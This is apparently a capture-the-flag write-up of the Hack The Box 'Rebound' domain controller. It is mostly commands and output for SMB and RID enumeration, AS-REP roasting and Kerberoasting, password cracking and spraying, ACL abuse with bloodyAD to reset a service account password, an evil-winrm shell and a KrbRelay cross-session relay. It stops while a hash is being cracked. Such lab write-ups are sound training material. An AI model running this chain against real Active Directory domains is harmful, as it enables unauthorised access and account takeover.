# Entry

```sh
➜  rebound nxc smb 10.10.11.231
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
```

and look at shares if we have Guest access

```sh
➜  rebound nxc smb 10.10.11.231 -u "Guest" -p '' --shares
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.231    445    DC01             [+] rebound.htb\Guest: 
SMB         10.10.11.231    445    DC01             [*] Enumerated shares
SMB         10.10.11.231    445    DC01             Share           Permissions     Remark
SMB         10.10.11.231    445    DC01             -----           -----------     ------
SMB         10.10.11.231    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.231    445    DC01             C$                              Default share
SMB         10.10.11.231    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.231    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.11.231    445    DC01             Shared          READ            
SMB         10.10.11.231    445    DC01             SYSVOL                          Logon server share 
```



but there is nothing seems like interesting

we have Guest access so we can grab username list with `--users` flag or with `--rid-brute` flag



we can extract like that

```sh
➜  rebound cat nxcusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2
Administrator
Guest
krbtgt
DC01$
ppaul
llune
fflock
➜  rebound cat nxcusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2 > users.txt
```

BUTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTTT!!!!!!!!!!!!!!!!!!!!!!!!!
By default, typical RID cycle attacks go up to RID 4000. For a larger domain, it may be necessary to expand that, so I’ll switch to lookupsid.py (though netexec works as well by adding the max number to the option like --rid-brute 10000). Trying 10,000 does find more users (I don’t find any above 8,000):

```sh
➜  rebound nxc smb 10.10.11.231 -u "guest" -p '' --rid-brute 20000
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.231    445    DC01             [+] rebound.htb\guest: 
SMB         10.10.11.231    445    DC01             498: rebound\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.231    445    DC01             500: rebound\Administrator (SidTypeUser)
SMB         10.10.11.231    445    DC01             501: rebound\Guest (SidTypeUser)
SMB         10.10.11.231    445    DC01             502: rebound\krbtgt (SidTypeUser)
SMB         10.10.11.231    445    DC01             512: rebound\Domain Admins (SidTypeGroup)
SMB         10.10.11.231    445    DC01             513: rebound\Domain Users (SidTypeGroup)
SMB         10.10.11.231    445    DC01             514: rebound\Domain Guests (SidTypeGroup)
SMB         10.10.11.231    445    DC01             515: rebound\Domain Computers (SidTypeGroup)
SMB         10.10.11.231    445    DC01             516: rebound\Domain Controllers (SidTypeGroup)
SMB         10.10.11.231    445    DC01             517: rebound\Cert Publishers (SidTypeAlias)
SMB         10.10.11.231    445    DC01             518: rebound\Schema Admins (SidTypeGroup)
SMB         10.10.11.231    445    DC01             519: rebound\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.231    445    DC01             520: rebound\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.231    445    DC01             521: rebound\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.231    445    DC01             522: rebound\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.231    445    DC01             525: rebound\Protected Users (SidTypeGroup)
SMB         10.10.11.231    445    DC01             526: rebound\Key Admins (SidTypeGroup)
SMB         10.10.11.231    445    DC01             527: rebound\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.231    445    DC01             553: rebound\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.231    445    DC01             571: rebound\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.231    445    DC01             572: rebound\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.231    445    DC01             1000: rebound\DC01$ (SidTypeUser)
SMB         10.10.11.231    445    DC01             1101: rebound\DnsAdmins (SidTypeAlias)
SMB         10.10.11.231    445    DC01             1102: rebound\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.231    445    DC01             1951: rebound\ppaul (SidTypeUser)
SMB         10.10.11.231    445    DC01             2952: rebound\llune (SidTypeUser)
SMB         10.10.11.231    445    DC01             3382: rebound\fflock (SidTypeUser)
SMB         10.10.11.231    445    DC01             5277: rebound\jjones (SidTypeUser)
SMB         10.10.11.231    445    DC01             5569: rebound\mmalone (SidTypeUser)
SMB         10.10.11.231    445    DC01             5680: rebound\nnoon (SidTypeUser)
SMB         10.10.11.231    445    DC01             7681: rebound\ldap_monitor (SidTypeUser)
SMB         10.10.11.231    445    DC01             7682: rebound\oorend (SidTypeUser)
SMB         10.10.11.231    445    DC01             7683: rebound\ServiceMgmt (SidTypeGroup)
SMB         10.10.11.231    445    DC01             7684: rebound\winrm_svc (SidTypeUser)
SMB         10.10.11.231    445    DC01             7685: rebound\batch_runner (SidTypeUser)
SMB         10.10.11.231    445    DC01             7686: rebound\tbrady (SidTypeUser)
SMB         10.10.11.231    445    DC01             7687: rebound\delegator$ (SidTypeUser)
```

now everyting changed.

```sh
➜  rebound cat nxcusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2            
Administrator
Guest
krbtgt
DC01$
ppaul
llune
fflock
jjones
mmalone
nnoon
ldap_monitor
oorend
winrm_svc
batch_runner
tbrady
delegator$
➜  rebound cat nxcusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2 > users.txt
```


there is no username : username creds match 🤘

so lets try kerberoasting or ASREP

```sh
➜  rebound nxc ldap DC01.rebound.htb -u "Guest" -p '' --asreproast asrephashes.txt     
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
➜  rebound nxc ldap DC01.rebound.htb -u users.txt -p '' --asreproast asrephashes.txt 
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
LDAP        10.10.11.231    445    DC01             $krb5asrep$23$jjones@REBOUND.HTB:c53192c22b596d89bcc732e71d851320$54c26eebf8a15d43cf2dd02d786ad4f13e6d754a7f2040c521ad35d35f3664ce7e1b79115dd7c491221731630eb6b4bb3fb92de75e86683f3edd7dad137afa3fc993ab53afb3826127bafca4176e69261a22b23f553fc6c1895ac7ec78e128556e070c9d98b41d4b0e7d1824344e8c974b097e06d0400201a9d216a30ba1fe22e0ea67dd15b1858f0f5cacd0b16ff0af1b214c23058bd698dc47da6a165642038a142db90e552ccc4b146679e697f1b773f77368c6b4ba5e27af601b699e49d968da773b76e3e7a7f483b46e857b02e7557d5c2bc2bc3a852158bd4dcc87b5aa09c0b397d3ebe304263a
```
i can grab jjones hash but its not crackable

https://www.semperis.com/blog/new-attack-paths-as-requested-sts/

> Therefore, if any account is configured to not require pre-authentication, it is possible to Kerberoast without any credentials. This method of Kerberoasting has been implemented in Rubeus within this PR.
>



ldap_monithor hashes is crackable

```sh
➜  rebound john ldap_monitor_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1GR8t@$$4u       (?)   
```

noice! we got passwrod lets do password spray

```sh
➜  rebound nxc smb DC01.rebound.htb -u users.txt -p '1GR8t@$$4u' --continue-on-success
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.231    445    DC01             [-] rebound.htb\Administrator:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\Guest:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\krbtgt:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\DC01$:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\ppaul:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\llune:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\fflock:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\jjones:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\mmalone:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\nnoon:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [+] rebound.htb\ldap_monitor:1GR8t@$$4u 
SMB         10.10.11.231    445    DC01             [+] rebound.htb\oorend:1GR8t@$$4u 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\winrm_svc:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\batch_runner:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\tbrady:1GR8t@$$4u STATUS_LOGON_FAILURE 
SMB         10.10.11.231    445    DC01             [-] rebound.htb\delegator$:1GR8t@$$4u STATUS_LOGON_FAILURE 
```

its work for oorend too!!!

lets see if its also work for ldap then we can dump BH data



it will usefull just with faketime and -k

lets dump bloodhound data

```sh
➜  rebound faketime '2025-03-14 03:03:25' nxc ldap rebound.htb -u ldap_monitor -p '1GR8t@$$4u' -k --bloodhound --dns-server 10.10.11.231 --collection all
SMB         rebound.htb     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAPS       rebound.htb     636    DC01             [+] rebound.htb\ldap_monitor 
LDAPS       rebound.htb     636    DC01             Resolved collection methods: rdp, psremote, container, acl, trusts, localadmin, dcom, objectprops, group, session
LDAPS       rebound.htb     636    DC01             Using kerberos auth without ccache, getting TGT
LDAP        rebound.htb     389    DC01             Done in 00M 22S
LDAPS       rebound.htb     636    DC01             Compressing output into /root/.nxc/logs/DC01_rebound.htb_2025-03-14_030331_bloodhound.zip
```

### Analyze-Bloodhound


nice we have privileges on servicemgmtg groups lets see what it can do


and he its has 2 members which is


winrm_svc seems like interesting


noice!
and boom!!!! winrm_svc hash PS remote so we are so close for remote access but before we have to do go oorend → → → winrm_svc

.png>)

noice!!!

my attack aim

1- i wanna add myself (oorend) to SERVICEMGMT as member

2- we are member of servicemgmt rn so we can do GenericAll for service Users but we have to give us full privileges!!!!!

3- we have full privileges on Service Users so we can change password for winrm_svc

Forr all attack i wanna use my repo

before this attack u may wanna use

```ntpdate -u rebound.htb```

### Adself

[autobloodyAD](https://github.com/lineeralgebra/autobloodyAD)



```sh
➜  rebound bloodyAD --host DC01.rebound.htb -d rebound.htb -u oorend -p '1GR8t@$$4u' add groupMember ServiceMGMT oorend

[+] oorend added to ServiceMGMT
```

### Genericall

now we are member of ServiceMGMT then we can give ourself full privileges on Service Users



```sh
➜  rebound bloodyAD --host DC01.rebound.htb -d rebound.htb -u oorend -p '1GR8t@$$4u' add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

noice !!!!

now we can change password of winrm_svc



```sh
➜  rebound bloodyAD --host DC01.rebound.htb -d rebound.htb -u oorend -p '1GR8t@$$4u' set password winrm_svc NewPassword123

[+] Password changed successfully!
```
boooom!!!!!!

```sh
➜  rebound nxc smb DC01.rebound.htb -u winrm_svc -p 'NewPassword123'
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.231    445    DC01             [+] rebound.htb\winrm_svc:NewPassword123 
➜  rebound nxc winrm DC01.rebound.htb -u winrm_svc -p 'NewPassword123'
WINRM       10.10.11.231    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.231    5985   DC01             [+] rebound.htb\winrm_svc:NewPassword123 (Pwn3d!)
```

and we got user flag


```powershell
➜  rebound evil-winrm -i DC01.rebound.htb -u winrm_svc -p 'NewPassword123'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Desktop> dir


    Directory: C:\Users\winrm_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/13/2025   9:11 PM             34 user.txt
```

okey i will load my becon here

### tbrady



and at BloodHound


we have ReadGMSAPassword for delegator so its seems like way!!!!

## Cross Session Relay

I’m going to abuse the logged in session by TBrady by triggering an authentication back to my box and relaying it to dump a hash. I did something similar in Shibuya from Vulnlab but there I got the administrator account, which allowed me to just add an admin user and be done. Here I’ll be targeting the TBrady user, so what I can get via relay is more limited.
There is 2 way to do it but im gonna use krbrelayx

[KrbRelay](https://github.com/cube0x0/KrbRelay)


its actually show us how to use its so im gonna use wtih RunAsCs but just has to upload KrbRelay i know its not good gor OPSEC but there is nothing we can do

u can find https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/KrbRelay.exe krbrelayx here btw

```sh
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/_RunasCs.exe x x -l 9 "C:\programdata\KrbRelay.exe -session 1 -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm"
```

but this defeats the whole purpose since you have krbrelay on disk -- instead use runascs to run another beacon with an interactive logon and run krbrelay using the new beacon



and now we can run KrbRelay directly



and yeah its crackable

```sh
➜  rebound john tbrady_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
